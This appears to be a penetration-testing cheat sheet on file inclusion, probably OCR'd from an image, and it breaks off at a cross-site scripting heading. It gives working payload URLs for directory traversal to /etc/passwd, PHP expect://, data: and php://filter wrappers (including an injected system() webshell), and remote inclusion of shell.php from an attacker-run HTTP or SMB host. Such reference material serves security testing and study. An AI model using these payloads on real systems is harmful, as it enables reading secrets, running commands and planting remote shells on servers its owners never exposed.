
# 1	FILE INCLUSION

## 1.1	LOCAL FILE INCLUSION

### 1.1.1	DIRECTORY TRAVERSAL

- Include `../` characters to trick parser into accessing directories above the indicated directory, possibly revealing sensitive information.

`http://10.10.10.100/photoalbum/disaply.php?photo=../../../../../../etc/passwd`
### 1.1.2	PHP WRAPPERS

#### 1.1.2.1	Expect

`http://10.10.10.100/photoalbum/disaply.php?photo=expect://ls`
#### 1.1.2.2	Data

- Inject the PHP code you want directly in the URL

`http://10.102.2.220/description.php?page=data:text/plain,<?system($_GET['x']);?>&x=(<command here>)`

source: [2]

#### 1.1.2.3	Filter

`http://10.102.3.45/description.php?page=php://filter/convert.base64-encode/resource=config.php`

- Useful if the resource in question is a php file that doesn't render properly.

source: [2]

## 1.2	REMOTE FILE INCLUSION

### 1.2.1	HTTP Inclusion

`$ python -m SimpleHTTPServer 4444 http://10.102.8.127/description.php?page=http://10.102.5.106:4444/shell.php`

- If http is blocked, try HTTP or other caps variations.

### 1.2.2	SMB Inclusion

- Use when "allow_url_include=0" and http:// is blocked.

`$ python smbshare.py –smb2support sharepath /root/Desktop/Shells http://10.102.8.127/description.php?page=\\10.102.5.106\sharepath\shell.php`

source: [1]

# 2	CROSS SITE SCRIPTING
